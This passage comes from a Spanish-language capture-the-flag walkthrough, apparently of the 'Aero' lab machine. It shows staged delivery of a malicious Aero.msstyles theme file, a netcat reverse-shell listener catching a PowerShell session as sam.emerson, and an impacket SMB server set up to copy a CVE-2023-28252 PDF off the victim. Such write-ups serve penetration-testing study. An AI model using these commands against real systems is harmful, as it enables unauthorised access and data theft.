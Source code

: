 ```
2024-10-01 10:22:59,770 WARNING> Stage 1/3: "Aero.msstyles" [shareAccess: 1]
2024-10-01 10:23:00,149 WARNING> Stage 1/3: "Aero.msstyles" [shareAccess: 1]
2024-10-01 10:23:00,504 WARNING> Stage 1/3: "Aero.msstyles" [shareAccess: 7]
2024-10-01 10:23:00,656 WARNING> Stage 1/3: "Aero.msstyles" [shareAccess: 5]
2024-10-01 10:23:01,497 WARNING> Stage 2/3: "Aero.msstyles_vrf.dll" [shareAccess: 7]
2024-10-01 10:23:01,657 WARNING> Stage 2/3: "Aero.msstyles_vrf.dll" [shareAccess: 1]
2024-10-01 10:23:03,245 WARNING> Stage 2/3: "Aero.msstyles_vrf.dll" [shareAccess: 7]
2024-10-01 10:23:03,396 WARNING> Stage 3/3: "Aero.msstyles_vrf.dll" [shareAccess: 5]
2024-10-01 10:23:10,341 INFO> Disconnecting Share(1:IPC$)
2024-10-01 10:23:36,073 WARNING> Stage 1/3: "Aero.msstyles" [shareAccess: 1]

```

`Ganamos acceso` a la `máquina víctima`

```
# rlwrap -cAr nc -lvnp 4711

listening on [any] 4711 ...
connect to [10.10.16.29] from (UNKNOWN) [10.129.229.128] 57007
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\system32> whoami
whoami
aero\sam.emerson
```

## Privilege Escalation

En la carpeta `Documents` de nuestro usuario vemos un `pdf`

```
PS C:\Users\sam.emerson\Documents> dir
dir


    Directory: C:\Users\sam.emerson\Documents


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----
-a----         9/21/2023   9:18 AM          14158 CVE-2023-28252_Summary.pdf
```

Para `transferirnos` el `pdf` vamos a montarnos un` servidor smb` en nuestro equipo

```
# impacket-smbserver smbFolder $(pwd) -smb2support
```
